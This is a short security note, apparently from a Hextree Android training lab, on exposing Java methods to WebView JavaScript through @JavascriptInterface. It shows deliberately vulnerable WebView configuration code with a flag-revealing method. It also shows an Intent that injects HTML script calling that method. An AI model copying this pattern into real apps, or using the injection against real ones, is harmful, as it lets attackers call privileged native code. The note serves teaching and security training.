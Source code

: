 ```yaml
---
description: A View that displays web pages.
---
```


# webview

## @JavascriptInterface

A Java function that contains the decorator `@JavascriptInterface` can be exposed into a webview. Vulnerable code:

```java
private void configureWebView() {
        WebSettings webSettings = this.webView.getSettings();
        webSettings.setJavaScriptEnabled(true);
        webSettings.setSafeBrowsingEnabled(false);
        this.webView.setWebChromeClient(new WebChromeClient());
        this.webView.setWebViewClient(new WebViewClient());
        this.webView.addJavascriptInterface(new JavaScriptInterface(), "Android");
    }

    /* loaded from: classes3.dex */
    public class JavaScriptInterface {
        public JavaScriptInterface() {
        }

        @JavascriptInterface
        public void showToast(String message) {
            Toast.makeText(MainActivity.this, message, 0).show();
        }

        @JavascriptInterface
        public void showFlag() {
            Toast.makeText(MainActivity.this, "HXT{java-in-a-webview}", 0).show();
        }
    }
```

Example of exploitation:

```java
private void sendHtmlIntent() {
        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setComponent(new ComponentName("io.hextree.webviewdemo", "io.hextree.webviewdemo.MainActivity"));
        intent.putExtra("htmlContent", "<html><body><script>Android.showFlag();</script></body></html>");
        startActivity(intent);
    }
```

## References

{% embed url="https://developer.android.com/reference/android/webkit/WebView" %}

{% embed url="https://app.hextree.io/" %}
